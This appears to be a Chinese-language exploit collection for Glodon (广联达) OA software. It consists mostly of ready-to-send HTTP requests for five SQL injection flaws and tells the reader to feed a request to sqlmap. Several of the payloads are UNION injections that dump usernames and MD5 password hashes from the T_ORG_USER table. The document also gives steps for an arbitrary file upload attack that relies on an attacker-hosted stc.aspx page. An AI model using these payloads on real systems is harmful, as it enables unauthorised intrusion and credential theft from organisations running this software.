

将以下内容保存为1.txt，使用sqlmap -r 1.txt 命令进行测试

广联达OA EmailAccountOrgUserService SQL注入漏洞
```
POST /Mail/Services/EmailAccountOrgUserService.asmx HTTP/1.1
Host: 目标主机名
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetUserInfosByEmail"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<GetUserInfosByEmail xmlns="http://tempuri.org/">
<email>1</email>
</GetUserInfosByEmail>
</soap:Body>
</soap:Envelope>
```

广联达OA GetUserByEmployeeCode SQL注入漏洞
```
POST /Org/service/Service.asmx/GetUserByEmployeeCode HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Content-Length: 39
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate

employeeCode=1&EncryptData=1
```
广联达OA GetIMDictionarySQL注入漏洞
```
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=iq02bz1sdodmt2z0ox1rjnqy; GTP_IdServer_LangID=2052
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --
```

广联达OA GetUserByUserCode SQL注入漏洞（无法用sqlmap跑出来，使用此POC获取存在账号密码的MD5值）
```
GET /Org/service/Service.asmx/GetUserByUserCode?EncryptData=1&userCode=1%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,NULL,NULL,NULL,(SELECT%20top%201%20concat(F_CODE,%27:%27,F_PWD_MD5)%20from%20T_ORG_USER),NULL,NULL--+ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: GTP_IdServer_LangID=2052; ASP.NET_SessionId=0qojkq03bxdprdshup5xd1pq
Upgrade-Insecure-Requests: 1
```


广联达OA GetDeptByDeptCode SQL注入漏洞（无法用sqlmap跑出来，使用此POC获取存在账号密码的MD5值）
```
GET /org/service/Service.asmx/GetDeptByDeptCode?userCode=-1637%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,NULL,((SELECT%20top%201%20concat(F_CODE,%27:%27,F_PWD_MD5)%20from%20T_ORG_USER)),NULL--%20iPAI&EncryptData=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=fcj10faodg5415xvrxtdo1dk; GTP_IdServer_LangID=2052
Upgrade-Insecure-Requests: 1
```

广联达OA GWGDWebService存在任意文件上传漏洞（检测时需修改脚本内容）

此漏洞需要一台公网服务器，新建stc.aspx文件上传到服务器，启动web服务，使stc.aspx从web被访问

在脚本209行，修改http://xxxxx:xxx/stc.aspx为你公网服务器的IP地址，再运行脚本检测




